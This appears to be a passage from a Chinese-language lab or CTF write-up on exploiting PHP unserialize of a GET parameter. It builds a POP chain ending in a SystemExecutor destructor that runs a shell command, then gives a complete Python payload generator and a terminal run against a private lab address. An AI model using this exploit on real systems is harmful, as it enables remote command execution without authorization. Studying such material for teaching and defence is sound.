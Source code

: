 `unserialize` 函数的参数直接取自 GET 请求，存在严重安全风险。通过分析应用程序的类（`UserSession`, `CacheManager`, `FileHandler`, `SystemExecutor`），可以构造一条 POP (Property-Oriented Programming) 链，最终实现远程代码执行。

**POP 链利用思路：**
`UserSession` -> `CacheManager` -> `FileHandler` -> `SystemExecutor`

通过此链条，最终会触发 `SystemExecutor` 类中的 `__destruct` 方法执行系统命令。

**Payload 生成脚本:**

```python
import urllib.parse

class SystemExecutor: pass
class FileHandler: __init__ = lambda s,p,f: setattr(s,'process',p) or setattr(s,'filename',f)
class CacheManager: __init__ = lambda s,c: setattr(s,'cacheFile',c)
class UserSession: __init__ = lambda s,l: setattr(s,'logger',l)

def php_ser(obj):
    if isinstance(obj, str):
        return f's:{len(obj)}:"{obj}";'
    if isinstance(obj, SystemExecutor):
        return 'O:14:"SystemExecutor":0:{}'
    if isinstance(obj, FileHandler):
        d = php_ser('process')+php_ser(obj.process)
        d += php_ser('filename')+php_ser(obj.filename)
        return f'O:11:"FileHandler":2:{{{d}}}'
    if isinstance(obj, CacheManager):
        d = php_ser('cacheFile')+php_ser(obj.cacheFile)
        return f'O:12:"CacheManager":1:{{{d}}}'
    if isinstance(obj, UserSession):
        d = php_ser('logger')+php_ser(obj.logger)
        return f'O:11:"UserSession":1:{{{d}}}'
    return 'N;'

def g():
    c = input("输入命令: ").strip()
    e = SystemExecutor()
    f = FileHandler(e, c)
    cm = CacheManager(f)
    us = UserSession(cm)
    p = php_ser(us)
    u = f"http://192.168.205.230/ok.php?data={urllib.parse.quote(p)}"
    print(f"[*] 序列化字符串:\n{p}\n")
    print(f"[*] 攻击URL:\n{u}")

if __name__ == "__main__":
    g()
```

尝试利用

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 b.py
输入命令: id
[*] 序列化字符串:
O:11:"UserSession":1:{s:6:"logger";O:12:"CacheManager":1:{s:9:"cacheFile";O:11:"FileHandler":2:{s:7:"process";O:14:"SystemExecutor":0:{}s:8:"filename";s:2:"id";}}}

[*] 攻击URL:
http://192.168.205.230/ok.php?data=O%3A11%3A%22UserSession%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A12%3A%22CacheManager%22%3A1%3A%7Bs%3A9%3A%22cacheFile%22%3BO%3A11%3A%22FileHandler%22%3A2%3A%7Bs%3A7%3A%22process%22%3BO%3A14%3A%22SystemExecutor%22%3A0%3A%7B%7Ds%3A8%3A%22filename%22%3Bs%3A2%3A%22id%22%3B%7D%7D%7D
```
